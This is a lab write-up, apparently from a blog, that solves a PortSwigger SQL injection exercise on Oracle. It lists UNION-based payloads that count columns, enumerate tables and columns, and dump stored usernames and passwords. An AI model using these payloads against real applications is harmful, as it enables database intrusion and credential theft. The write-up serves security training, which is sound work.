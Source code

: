 ```yaml
---
title: PSA - SQLi 10 - Listing contents on Oracle DB
date: 2023-05-17
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL FROM DUAL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL FROM DUAL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL FROM DUAL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL FROM DUAL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc' FROM DUAL--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM all_tables--
````

75 table names are displayed. A quick sort make `USERS_OPLMGY` stands out. Time to find the column names inside.

> I didn't find it first try! I had to look on internet and I found that I have to query the table `USER_TAB_COLUMNS`.

````text
<website>/filter?category=Gifts'UNION SELECT column_name,NULL FROM USER_TAB_COLUMNS WHERE table_name='USERS_OPLMGY'--
````

We obtain `USERNAME_JIHLXR` and `PASSWORD_DNJXFC`.

````text
<website>/filter?category=Gifts'UNION SELECT USERNAME_JIHLXR,PASSWORD_DNJXFC FROM USERS_OPLMGY--
````

That's how I solved this challenge!
